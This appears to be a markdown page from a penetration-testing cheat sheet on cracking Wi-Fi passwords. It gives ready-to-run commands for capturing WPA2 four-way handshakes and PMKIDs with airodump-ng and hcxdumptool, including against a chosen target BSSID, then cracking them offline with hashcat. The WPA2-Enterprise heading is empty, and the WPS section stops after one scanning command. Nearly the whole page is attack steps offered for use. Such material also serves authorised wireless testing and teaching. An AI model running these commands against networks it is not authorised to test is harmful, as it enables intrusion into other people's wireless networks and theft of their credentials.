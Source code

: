 #### Crack with hashcat

First, use airodump-ng to get the 4-way Handshake. Then convert the capture, so that it can be used with hashcat :

```
# Convert cap to hccapx
cap2hccapx <CAPTURE_NAME>.cap <CAPTURE_NAME>.hccapx

# Crack with hashcat
hashcat -m 2500 -a 0 <CAPTURE_NAME>.hccapx <PASSWORDS_WORDLIST>
```

#### Clientless - PMKID attack

##### Any SSID

```
# Capture PMKID
hcxdumptool -i wlan0 -o galleria.pcapng --enable_status=1

# Convert the dump for hashcat
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

# Crack with hashcat
hashcat -m 16800 -a 0 galleriaHC.16800 <PASSWORDS_WORDLIST>
```

##### Specific SSID

```
# Get bssid of your target
airodump-ng <INTERFACE>

# Put bssid inside a file
echo "<BSSID>" | sed 's/://g' > bssid

# Capture specific BSSID
hcxdumptool -i <INTERFACE> -o galleria.pcapng --enable_status=15 --filterlist_ap=bssid --filtermode=2

# Convert the dump for hashcat
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

# Crack with hashcat
hashcat -m 16800 -a 0 galleriaHC.16800 <PASSWORDS_WORDLIST>
```

### Attacking WPA2-Enterprise



### WPS Pin attacks

```
# Identifying access points with WPS enabled
wash -i <INTERFACE> -s
```
